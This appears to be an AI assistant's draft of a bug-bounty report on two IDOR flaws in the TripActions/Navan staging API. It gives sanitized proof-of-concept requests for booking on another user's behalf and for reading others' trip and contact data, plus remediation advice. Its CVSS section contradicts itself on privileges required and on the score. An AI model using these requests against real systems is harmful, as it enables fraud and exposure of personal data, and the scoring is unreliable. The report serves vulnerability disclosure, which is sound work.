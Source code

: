 Got it ✅ — I’ll create a professional **bug bounty–style vulnerability report** for you, based on the leaked staging data and both IDOR issues (booking + trip info leakage).  
I’ll make it in a structured format (ready for HackerOne/Bugcrowd or email disclosure).

---

# Vulnerability Report – IDOR in TripActions/Navan API

**Title:**  
IDOR allows creating bookings for other users & reading sensitive trip/user/company data

---

## Summary

Two related **Insecure Direct Object Reference (IDOR)** vulnerabilities were discovered in the TripActions/Navan staging API.

1. **Booking Manipulation:**  
    An authenticated user can create bookings for other users by supplying their `uuid` in the `passengerData` field when calling the booking endpoint. No ownership or delegation checks are enforced.
    
2. **Sensitive Data Exposure:**  
    An authenticated user can access sensitive trip, user, and company details for other users by requesting `/api/admin/trips/{uuid}`. The response includes personal identifiers, trip details, company office addresses, geo coordinates, and internal configuration flags.
    

These vulnerabilities expose PII, financial data, and company metadata, and allow unauthorized bookings to be made in the name of another user.

---

## Affected Endpoints

- `POST /api/v1/trip/hotel/searches/{searchUuid}/contracts/{contractUuid}/book/streaming`
    
- `GET /api/admin/trips/{tripUuid}`
    

---

## Proof of Concept (Sanitized)

### 1. Booking on Behalf of Another User

**Request:**

```http
POST /api/v1/trip/hotel/searches/<searchUuid>/contracts/<contractUuid>/book/streaming?paymentMethodUuid=<paymentUuid>&tripId=NEW&tripName=Escaldes-Engordany%20Trip
Authorization: TripActions <REDACTED_TOKEN>
Content-Type: application/json

{
  "passengerData":[
    {
      "passenger": {
        "uuid": "12a510a9-4f9b-43b6-96ea-1a548c95642f",
        "givenName": "Test",
        "familyName": "Testy"
      }
    }
  ]
}
```

**Expected:** Server rejects booking creation when the passenger UUID does not match the requesting user (403 Forbidden).  
**Observed:** Booking created successfully for the victim user.

---

### 2. Unauthorized Access to Trip Data

**Request:**

```http
GET /api/admin/trips/3f363203-860f-448b-85c8-2302e93ca0b7
Authorization: TripActions <REDACTED_TOKEN>
```

**Response (excerpt):**

```json
{
  "user": {
    "email": "test@example.com",
    "phoneNumber": "+1-202-555-0199",
    "companyName": "TripActions",
    "companyOfficeLocation": {
      "formattedAddress": "3045 Park Blvd, Palo Alto, CA 94306, USA",
      "geo": {
        "latitude": 37.4257341,
        "longitude": -122.1371254
      }
    }
  },
  "tripPassengers": [
    {
      "uuid": "12a510a9-4f9b-43b6-96ea-1a548c95642f",
      "givenName": "Test",
      "familyName": "Testy"
    }
  ],
  "dateSignUpCompleted": "2025-09-19T20:24:52.730978Z"
}
```

---

## Impact

- **Confidentiality:** Full leakage of personal details (emails, phone numbers, names), company office addresses with GPS coordinates, and user account metadata.
    
- **Integrity:** Unauthorized bookings/cancellations can be made in the name of another user, potentially leading to financial loss.
    
- **Availability:** Fraudulent bookings could lock user accounts or consume resources.
    
- **Business Risk:** PII and sensitive business travel data could be weaponized for phishing, fraud, corporate espionage, or doxxing.
    

---

## Recommended Remediation

1. **Authorization Checks:**
    
    - Validate that `passenger.uuid == requesting_user.uuid` unless explicit delegation exists.
        
    - Restrict `/api/admin/trips/{id}` to admins or the resource owner only.
        
2. **Data Minimization:**
    
    - Do not return internal flags, geo-coordinates, or sensitive user data to non-admins.
        
    - Mask emails and phone numbers when not strictly required.
        
3. **Monitoring & Logging:**
    
    - Add alerts for mismatched UUIDs in booking attempts.
        
    - Log and audit all admin endpoint calls.
        
4. **Token & Access Control:**
    
    - Rotate staging/production tokens.
        
    - Limit staging API exposure to authorized staff.
        

---

## Suggested Timeline

- **Immediate (24h):** Disable vulnerable endpoints or restrict access.
    
- **Within 7 days:** Deploy fixes and regression tests.
    
- **Within 30 days:** Audit logs, rotate keys, and notify affected users if applicable.
    

---

## CVSS v3.1 Vector

- **Score:** 9.1 (Critical)
    
- **Vector:** AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
    

---

✅ This report is ready to submit to a vendor bug bounty program (HackerOne, Bugcrowd) or send via email to their security team.

---

Do you want me to also **export this as a PDF/Markdown file** for easier direct submission, or just keep it in this text format?


- **AV:N (Network):** The vulnerability is exploitable over the network (HTTP API).
    
- **AC:L (Low):** No special conditions or complex steps are required — change UUIDs and send requests.
    
- **PR:L (Low):** Requires an authenticated user token (low privilege; not admin).
    
- **UI:N (None):** No user interaction required beyond the attacker sending requests.
    
- **S:U (Scope Unchanged):** The vulnerability affects resources within the same security scope (the API/tenant) — authorization checks missing, but impact is constrained to existing resources.
    
- **C:H / I:H / A:H (High):**
    
    - **Confidentiality High:** Full PII (email, phone, company, office geo coordinates) is exposed.
        
    - **Integrity High:** Attacker can create bookings on behalf of other users (unauthorized actions).
        
    - **Availability High:** Fraudulent bookings or cancellations could cause service disruption/denial of service to legitimate users or financial loss.